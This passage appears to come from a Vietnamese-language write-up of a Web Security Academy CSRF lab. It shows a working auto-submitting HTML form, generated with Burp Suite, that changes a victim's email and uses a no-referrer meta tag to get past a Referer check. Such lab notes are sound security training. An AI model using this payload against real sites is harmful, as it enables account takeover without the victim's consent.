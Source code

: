 => có thể suppress referer bằng meta tag: `<meta name="referrer" content="no-referrer">`

Steps: 

- Gen POC + thêm thẻ meta

```html
<html>
<meta name="referrer" content="no-referrer">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8c008b0385b05180623f1600ca0065.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="n33r9&#46;khong&#64;l&#46;final" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![image-20250604014456412](./image/image-20250604014456412.png)
